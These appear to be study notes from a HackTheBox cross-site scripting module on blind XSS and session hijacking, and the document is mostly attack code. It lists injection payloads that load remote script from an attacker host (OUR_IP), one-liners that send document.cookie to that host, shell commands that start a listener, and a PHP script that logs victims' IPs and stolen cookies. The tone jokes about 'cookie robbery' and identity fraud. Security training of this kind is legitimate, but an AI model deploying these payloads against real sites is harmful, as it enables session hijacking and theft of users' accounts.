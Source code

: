 ```shell-session
Enigma3nma@htb[/htb]$ cd /tmp/tmpserver
Enigma3nma@htb[/htb]$ vi index.php #at this step we wrote our index.php file
Enigma3nma@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```
**Blind XSS**
*It can't see you either*
Look for these in:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

**Hijacking**
*Perform a cookie robbery. Commit identity fraud. Usual days work.*

To send a file:
```
<script src="http://OUR_IP/script.js"></script>
```
You can change `script.js` to a field/object we are injecting it into and call it like this ``
```
<script src="http://OUR_IP/<field>"></script>
```
Then if you get a request for `/username` you know it is injectable.
Here are a few payloads you can try (from PayloadsAllTheThings)
```
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
Steal a cookie:
```
document.location='http://OUR_IP/index.php?c='+document.cookie;

new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
```
new Image().src='http://OUR_IP/index.php?c='+document.cookie

<script src=http://OUR_IP/script.js></script>
```

Our PHP code to steal the cookie
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
`
![[../../Cross_Site_Scripting_Xss_Module_Cheat_Sheet.pdf]]
